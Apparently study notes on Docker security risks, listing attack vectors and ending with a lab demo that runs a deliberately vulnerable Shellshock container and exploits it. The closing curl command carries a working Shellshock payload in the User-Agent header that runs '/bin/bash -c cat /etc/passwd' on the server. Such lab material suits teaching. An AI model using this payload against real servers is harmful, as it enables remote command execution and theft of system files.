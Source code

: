 **Docker Attack Surface:** 

- Docker comes with a significant amount of Risk with it if not properly used
- this is because Docker requires root privilege to operate. 
-  external Attacker - External user can gain access through Docker remote execution
-  Malicious Insider - Internal users who are part of Docker group can easily gain Docker root access
-  Compromised Containers -  Backdoor images may cause issues too 

**Exploiting Vulnerable Images:**

- Docker images are downloaded from Docekr Hub
- these Docker images can have publicly known vulnerabilities : 
   - Dirty Cow
   - ShellShock : its a vulnerability released in Bash shell
   
These vulnerabilities can easily provide foot hold on your containers and host where Docker is being run. 


Demo:
// Download vulnerable image from Docker hub
docker pull vulnerables/cve-2014-6271

start it: 
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271

We can run any commands to it, example: cat /etc/passwd
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable

